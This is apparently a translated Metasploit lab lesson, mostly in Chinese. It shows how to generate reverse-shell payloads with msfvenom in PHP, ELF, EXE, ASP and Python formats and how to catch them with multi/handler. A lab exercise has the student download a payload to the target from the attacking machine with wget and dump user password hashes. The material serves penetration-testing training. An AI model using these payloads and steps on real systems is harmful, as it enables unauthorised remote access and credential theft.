类似于使用反向 shell 的 exploit，你需要能够接收由 MSFvenom payload 生成的“回连连接”。当你使用 exploit 模块时，这一部分通常会由 exploit 模块自动处理（你应该还记得在设置反向 shell 时，会出现 payload options 这类标题）。接收来自目标连接的常用说法是“catching a shell（抓到一个 shell）”。通过 MSFvenom payload 生成的反向 shell 或 Meterpreter 回调连接，可以通过 handler 很容易地“接住”。

下面这个场景你可能很熟悉：我们利用 DVWA（Damn Vulnerable Web Application）中存在的文件上传漏洞。这里的 DVWA 只是用来举例说明；在本任务的练习中，你需要在另一个目标系统上复现类似情景。利用步骤是：

1. 使用 MSFvenom 生成 PHP shell
2. 启动 Metasploit 的 handler
3. 执行 PHP shell

MSFvenom 需要你提供：payload、本机（攻击机）IP 地址，以及 payload 要连接回来的本机端口。如下所示，10.0.2.19 是攻击中 AttackBox 的 IP 地址，本地端口选择了 7777。

生成一个 PHP 反向 shell

```bash
root@ip-10-0-2-19:~# msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3020 bytes
root@ip-10-0-2-19:~#

```

请注意：生成的输出 PHP 文件会缺少开头的 PHP 标签（并且通常会被注释掉）以及结束标签（`?>`），如下所示。



The reverse_shell.php file should be edited to convert it into a working PHP file.

Below: Comments removed from the beginning of the file.



我们将使用 **Multi Handler** 来接收传入连接。这个模块可以通过命令 `use exploit/multi/handler` 来使用。

Multi handler 支持所有 Metasploit 的 payload，并且既可以用于 Meterpreter，也可以用于普通 shell。

要使用该模块，我们需要设置 payload 的值（这里是 `php/reverse_php`）、以及 `LHOST` 和 `LPORT` 的值。

设置监听器

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload php/reverse_php
payload => php/reverse_php
msf5 exploit(multi/handler) > set lhost 10.0.2.19
lhost => 10.0.2.19
msf6 exploit(multi/handler) > set lport 7777
lport => 7777
msf6 exploit(multi/handler) > show options

```

模块选项（exploit/multi/handler）：

（这里没有额外模块选项）

Payload 选项（php/reverse_php）：

- `LHOST 10.0.2.19`（必填）：监听地址（也可以指定某个网卡接口）
- `LPORT 7777`（必填）：监听端口

Exploit 目标（target）：

- `0 Wildcard Target`（通配目标）

当所有内容都设置好后，我们运行 handler 并等待传入连接。

等待反向 shell

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.186.44:7777

```

当反向 shell 被触发时，连接会被 `multi/handler` 接收，并提供给我们一个 shell。

如果 payload 设置为 Meterpreter（例如生成了 Windows 可执行文件格式的 Meterpreter），那么 `multi/handler` 会提供一个 Meterpreter shell。

### 其他 Payload

根据目标系统的配置（操作系统、是否安装了 Web 服务器、是否有解释器等），msfvenom 几乎可以生成各种格式的 payload。下面是一些你经常会用到的例子：

在所有例子里：

- `LHOST` 是你的攻击机 IP
- `LPORT` 是你的 handler 要监听的端口

### Linux 可执行与链接格式（elf）

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```

`.elf` 格式类似 Windows 的 `.exe`，是 Linux 的可执行文件。不过你可能需要确保它在目标机器上有可执行权限。比如把 `shell.elf` 放到目标机器后，用 `chmod +x shell.elf` 赋予可执行权限，然后在目标命令行用 `./shell.elf` 运行。

### Windows

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

### PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```

### ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```

### Python

```bash
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

以上例子全部都是 **反向（reverse）payload**。这意味着你需要在攻击机上让 `exploit/multi/handler` 作为 handler 处于监听状态，才能接住连接。你需要在 handler 里设置好对应的 `payload`、`LHOST`、`LPORT` 参数——这些值必须与你在生成 msfvenom payload 时使用的值保持一致。

例子：

Launch the VM attached to this task. The username is murphy, and the password is 1q2w3e4r. You can connect via SSH or launch this machine in the browser. Once on the terminal, type "sudo su" to get a root shell, this will make things easier.

Correct Answer

Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).

Correct Answer

Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_MACHINE_IP:9000/shell.elf to download it to the target machine).

Correct Answer

Get a meterpreter session on the target machine.

Correct Answer

Use a post exploitation module to dump hashes of other users on the system.

Check

What is the other user's password hash?

# 6. Summary

你现在应该对 Metasploit 如何帮助你在目标系统上识别潜在漏洞并利用这些漏洞有了更深入的理解。

你也看到了数据库功能如何在渗透测试任务中提供帮助，尤其是在你需要同时处理多个潜在目标的情况下。

最后，你应该已经通过 msfvenom 获得了一些经验，能够创建独立的（stand-alone）Meterpreter payload。这在一些场景中尤其有用，比如你能够向目标系统上传文件，或能够让目标系统下载文件的时候。Meterpreter 是一个非常强大的工具，在后渗透（post-exploitation）阶段提供了很多易用的功能。
